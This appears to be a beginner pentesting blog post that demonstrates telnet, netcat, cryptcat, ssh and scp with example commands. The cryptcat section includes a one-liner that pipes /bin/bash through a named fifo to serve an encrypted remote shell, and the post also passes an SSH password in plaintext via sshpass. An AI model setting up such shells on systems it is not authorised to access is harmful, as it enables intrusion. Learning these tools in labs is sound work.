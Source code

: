 ```yaml
---
layout: post
published: true
title: Networking tools and utilities 2.1
tags:
  - PWP
  - Beginner
  - Networking tools and utilities
comments: true
---
```

## Usage of Telnet,Netcat,Socat,Cryptcat,SSH,SCP

## Introduction

I am going to explain these tools with examples, these tools provide interactive communication with another host.
Every tool has there different advantages, check their manual using man command for more.

## Telnet
Telnet is a network protocol works on port 23, it provides command-line interface to communicate with another host

Mostly it used in port testing, we can use telnet for banner grabbing, i will cover it later in this blog series.

To connect to host/server using telnet
~~~
# telnet -h

# telnet <hostname> <port>
~~~
example
~~~
# telnet 198.137.0.4 1234
~~~
## Netcat/nc

Its most useful utility for our use, It can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports.
And its better than telnet for communication to another device.
~~~
# nc -h
~~~

Lets start a netcat listner in terminal 
~~~
# nc -lvvp 1337
nc -nlvvp 1337
Listening on 0.0.0.0 1337
~~~
Now its listening connection on host ip and 1337 port, lets connect it using another host or you can use another terminal tab just for satisfaction.
~~~
usage: nc <hostip> <port>
~~~
~~~
# nc 192.168.43.209 1337
~~~

try to chat with another host using terminal


## Cryptcat

The formula behind crypcat is: cryptcat = netcat + encryption.
Its basically a netcat variant which provide encryption over TCP/UDP communication with another host...


Let's play with it..............
~~~
# cryptcat -h
~~~
start cryptcat listner
~~~
# cryptcat -lv -p 1337
listening on [any] 1337 ...
~~~

Ok so its listning on 1337 lets connect using another terminal or host.
~~~
# cryptcat 192.168.43.209 1337
~~~
Now chat with another host

We can set -k perameter to make our communication password protected

Ok let's try encrypted reverse shell using cryptcat 
~~~

# cryptcat -k hacker -l -p 1337 0<myfifo | /bin/bash 1>myfifo

~~~

Now connect with it using another host

~~~
# cryptcat -k hacker 192.168.43.209 1337
~~~

You can excute commands on another host side and 

## SSH and SCP

SSH (Secure Shell) is a cryptographic network protocol for operating network services securely over an unsecured network. Typical applications include remote command-line, login, and remote command execution, but any network service can be secured with SSH.
We use it moslty to provide remote access to another host securley over unencrypted network

SCP(Secure Copy Protocol) copies files between hosts on a network, sshs for data transfer, and uses the same authentication and provides the same security as ssh.
 
_**To connect a ssh client with a host which is running sshd (ssh server) .**_

~~~
# ssh -h
ssh user@host (and enter password for connection)
~~~
example:
~~~
# ssh hacker@10.10.10.134
~~~
and enter password, or we can include ssh password also in same line

~~~
# sshpass -p "hahanoob" ssh hacker@10.10.10.134
~~~

We can also run GUI based commands from Remote SSH. How??

~~~

# ssh hacker@10.10.10.134 "DISPLAY=:0 no hup chrome"
~~~
or 
~~~
# ssh -X  hacker@10.10.10.134  firefox
~~~

To copy files over ssh we have to use scp
~~~
# scp -h
scp <filename> user@host:/filepath
~~~
example

~~~
# scp badguy.txt hacker@10.10.10.134:/home/mrw0r57
~~~

To download file 

~~~
# scp hacker@10.10.10.134:/home/mrw0r57/badguy.txt /home/myuser
~~~

## Conclusion

_**Learn these utilities by practical, we are going to use them in upcoming blog posts**_
